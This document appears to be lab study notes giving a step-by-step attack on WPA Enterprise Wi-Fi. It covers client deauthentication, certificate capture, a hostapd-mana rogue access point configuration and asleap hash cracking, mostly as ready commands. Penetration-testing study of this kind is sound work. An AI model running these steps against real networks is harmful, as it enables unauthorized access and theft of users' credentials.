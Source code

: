 ### Attacking WPA Enterprise (MGT)

- `sudo airodump-ng wlan0mon` to identify target
- `sudo airodump-ng -c 2 -w Playtronics wlan0mon` to scan specifically on ch 2 and save data to Playtronics file
(Getting CERT is OPTIONAL SKIP to hostapd-mana)
- `sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon` deauth a client to get the cert
- when client reconnects and airodump-ng indicates handshake has been captured. stop the capture and run wireshark. locate the server certificate frame. 
- `tls.handshake.type == 11` or `tls.handshake.certificate` filter used to find cert in wireshark
- In the Packet Details pane. Transport Layer Security > TLSv1.2 Record Layer: Handshake Protocol: Certificate > handshake protocol: certificate > Certificates
- for each certificate: right click and select `Export Packet Bytes` ti save the data into a `.der` file.
- certificates can be checked using `openssl x509 -inform der -in CERTIFICATE_FILENAME -text`
- not necessary but can be `.der` can be converted to `.pem` using `openssl x509 -inform der -in CERTIFICATE_FILENAME -outform pem -out OUTPUT_PEM.crt`
- go to `/etc/freeradius/3.0/certs` and edit `ca.cnf`  and `server.cnf`
- run `rm dh` and then `make` inside the `certs` dir
- edit `/etc/hostapd-mana/mana.conf`
- `sudo hostapd-mana /etc/hostapd-mana/mana.conf`
- cracking hash using `asleap` `asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst`



```bash
...
[certificate_authority]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = ca@playtronics.com
commonName              = "Playtronics Certificate Authority"
...
```
```bash
...
[server]
countryName             = US
stateOrProvinceName     = CA
localityName            = San Francisco
organizationName        = Playtronics
emailAddress            = admin@playtronics.com
commonName              = "Playtronics"
...
```
hostapd-mana config
```bash
interface=wlan1
ssid=<ESSID>
hw_mode=g
channel=6
auth_algs=3
wpa=3
wpa_key_mgmt=WPA-EAP
wpa_pairwise=TKIP CCMP
ieee8021x=1
eap_server=1
eap_user_file=hostapd.eap_user
ca_cert=/root/certs/ca.pem
server_cert=/root/certs/server.pem
private_key=/root/certs/server.key
dh_file=/root/certs/dhparam.pem
```
